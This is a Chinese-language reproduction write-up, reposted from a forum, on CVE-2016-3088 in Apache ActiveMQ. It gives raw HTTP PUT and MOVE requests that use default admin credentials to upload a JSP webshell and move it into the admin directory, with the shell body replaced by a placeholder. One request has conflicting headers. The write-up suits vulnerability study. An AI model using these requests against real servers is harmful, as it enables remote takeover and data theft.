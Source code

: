 # （CVE-2016-3088）ActiveMQ应用漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2801](https://www.zhihuifly.com/t/topic/2801)

# （CVE-2016-3088）ActiveMQ应用漏洞

## 一、漏洞简介

ActiveMQ是一款流行的开源消息服务器。默认情况下，ActiveMQ服务是没有配置安全参数。恶意人员可以利用默认配置弱点发动远程命令执行攻击，获取服务器权限，从而导致数据泄露。

## 二、漏洞影响

Apache ActiveMQ 5.x ~ 5.14.0

## 三、复现过程

漏洞是需要登录之后才可以执行

漏洞利用就是/fileserver/有put上传权限，/admin/有执行权限，可找到绝对路径，使用move移动文件到/admin/

下面就是两步走，先是利用put上传文件到/fileserver/,然后移动到move到admin下面

所有返回为204就代表是成功，有个坑点：不要put同文件名的文件上去

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

如果上传不解析的话，则是证明没有权限！！！

ActiveMQ默认开启PUT方法，当fileserver存在时我们可以上传jspwebshell。

![image](img/257add4dcf2fde44c466788c13c6f522.png)

```
PUT /fileserver/shell.jsp HTTP/1.1
Host: 192.168.197.25:8161
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4= `shell` 
```

利用 MOVE 方法将 Webshell 移入 admin/ 目录

![image](img/fe7f4bbdb34dc110bcb93894c768ce2a.png)

```
Request Raw:
MOVE /fileserver/shell.jsp HTTP/1.1
Destination:file:/data/apache-activemq-5.7.0/webapps/admin/shell.jsp
Host: 192.168.197.25:8161
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 17
Content-Length: 0 `shell` 
```

![image](img/933801fec6c1c56af83de79a4bbb8d0f.png)
